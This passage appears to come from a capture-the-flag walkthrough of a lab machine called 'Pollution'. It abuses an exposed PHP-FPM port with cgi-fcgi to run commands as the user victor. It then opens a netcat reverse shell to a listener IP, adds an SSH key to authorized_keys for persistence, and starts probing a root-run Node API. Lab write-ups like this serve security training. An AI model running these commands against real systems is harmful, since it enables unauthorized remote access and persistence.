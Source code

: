 ```bash
# www-data@pollution (bash)
tmp=$(mktemp --suffix .php)
chmod a+rx $tmp
echo '<?=system("id")?>' > $tmp
SCRIPT_FILENAME=$tmp REQUEST_METHOD=POST cgi-fcgi -bind -connect :9000
rm -f $tmp
```
{:.nolineno}
>
```
...
uid=1002(victor) gid=1002(victor) groups=1002(victor)
```

We can execute commands as _victor_! Now let's trigger a callback to our PwnCat listener to get a reverse shell.

```bash
# www-data@pollution (bash)
tmp=$(mktemp --suffix .php)
chmod a+xr $tmp
lhost="10.10.14.4" # listener IP address
cmd="rm /tmp/v;mkfifo /tmp/v;cat /tmp/v|bash -i 2>&1|nc $lhost 443>/tmp/v&"
echo "<?=system(\"$cmd\")?>" > $tmp
SCRIPT_FILENAME=$tmp REQUEST_METHOD=POST cgi-fcgi -bind -connect :9000
```
{:.nolineno}

Let's also upload our SSH public key so we can easily access the machine via SSH.

```bash
# bryan@red_team (bash)
cat ~/.ssh/id_rsa.pub | cut -d' ' -f-2 # get SSH public key
```
{:.nolineno}
```bash
# victor@pollution (bash)
pub="" # public key here
echo $pub >> /home/victor/.ssh/authorized_keys
```
{:.nolineno}

### Pollution API

_victor_'s home directory has an unusual folder called `pollution_api`{:.filepath} which is likely the source for the node web app being run by root.

```bash
# victor@pollution (bash)
ps aux | egrep 'node' | head -1
```
{:.nolineno}
>
```
USER    PID ... COMMAND
root   1346 ... /usr/bin/node /root/pollution_api/index.js
```
{:.nolineno}
